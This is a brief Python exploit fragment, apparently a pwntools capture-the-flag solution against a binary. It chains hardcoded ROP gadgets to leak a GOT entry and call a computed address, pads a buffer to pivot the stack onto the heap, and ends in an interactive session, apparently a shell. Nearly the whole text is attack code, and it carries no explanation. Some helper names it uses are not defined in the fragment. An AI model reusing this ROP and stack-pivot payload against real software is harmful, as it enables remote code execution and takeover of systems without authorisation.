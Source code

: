 ```python
off = 0xabe - 0x970
pop_rax = 0x0000000000400b00
add_rax_rbp = 0x0000000000400b09
pop_rbp = 0x0000000000400900
xchg_rax_rsp = 0x0000000000400b02
mov_rax_drax = 0x0000000000400b05
pay1 = flat([ foot_plt, pop_rax, foot_got, mov_rax_drax ,pop_rbp, off, add_rax_rbp, call_rax ])
r.sendlineafter('> ', pay1)


pay2 = ''.ljust(40, 'a') + flat([pop_rax, heap_addr, xchg_rax_rsp]) 
r.sendlineafter('> ', pay2)
r.interactive()
```

